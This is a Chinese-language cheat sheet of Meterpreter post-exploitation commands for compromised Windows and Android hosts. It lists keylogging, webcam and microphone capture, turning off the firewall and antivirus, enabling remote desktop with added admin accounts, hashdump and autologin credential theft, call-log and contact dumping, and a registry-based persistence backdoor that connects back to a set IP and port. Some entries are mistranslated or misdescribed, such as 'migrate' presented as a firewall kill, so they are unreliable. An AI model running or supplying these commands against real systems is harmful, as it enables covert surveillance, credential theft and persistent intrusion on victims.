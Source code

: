 #Meterpreter

---

进程列表

getuid 获取系统ID以及计算机名称

kill 中止进程

getpid 获取当前进程标识符

键盘记录

keyscan_start 开启按键记录会话

keyscan_stop 终止按键记录会话

keyscan_dump 转储从被攻击主机捕获到的按键

会话

enumdesktops 列举所有可访问到的桌面和工作站

getdesktop 获取当前meterpreter桌面

setdesktop 变更meterpreter当前桌面

摄像头命令

webcam_list 列举系统中所有的摄像头

webcam_snap 捕获被攻击主机的快照

record_mic 从主机的默认麦克风中记录环境声音

---

keyscan_start 打开纪录总体目标服务器的键盘输入

keyscan_dump 輸出捕获到的总体目标键盘输入空格符信息内容

keyscan_stop 终止键盘记录

run vnc 打开实时监控界面

webcam_stream 打开监控摄像头

Webscan_stream //摄像头视频获取；

Webscan_chat //查看摄像头接口；

migrate 616 关掉另一方服务器防火墙

screenshot 手机截图

Run getgui -e //开启远程桌面；

Run getgui -u cmdback -p 123123 //添加用户

Run getgui -f 4446 -e //将目标主机上面的3389端口转发到4446

netsh advfirewall set allprofiles state off //关闭防火墙

Run post/windows/gather/checkvm //查看目标主机是否为虚机；

run post/windows/gather/enum_applications //获取目标主机安装软件信息；

Run post/windows/gather/enum_patches //查看目标主机的补丁信息；

run post/windows/gather/enum_domain //查找目标主机域控。我本地没有域控；

run post/windows/manage/killav //关闭杀毒软件；

run post/windows/manage/enable_rdp //开启3389远程桌面；

run post/windows/gather/enum_logged_on_users //列举当前登陆过主机的用户；

run post/windows/gather/credentials/windows_autologin //抓取自动登陆的用户名和密码；

run post/windows/manage/enable_rdp username=xxx password=xxx //添加远程桌面的用户(同时也会将该用户添加到管理员组)

---

权限维持 ：

Persistence模块

Run persistence -h //查看帮助信息；

run persistence -U -i 5 -p 5555 -r 192.168.205.148

-U：设置后门在用户登录后自启动。该方式会在HKCU\Software\Microsoft\Windows\CurrentVersion\Run下添加注册表信息。推荐使用该参数；

-i：设置反向连接间隔时间，单位为秒；

-p：设置反向连接的端口号；

-r：设置反向连接的ip地址。

注入进程　migrate 

上传文件  　upload　　　　　　　　　　   　
下载文件　　 download 

查看会话  sessions -l

获取最高权限  sysinfo getsystem 

密码hash 　　 hashdump  　　　　　　　　
  　　　　　　　　　　　　　 
搜索 search -f *.jpg

打开前置或后置摄像头webcam_stream -i 1/2 　

检测root　　　check_root

下载电话记录         dump_calllog

下载信息记录       dump_contacts

定位，需要下载谷歌地图       geolocate 


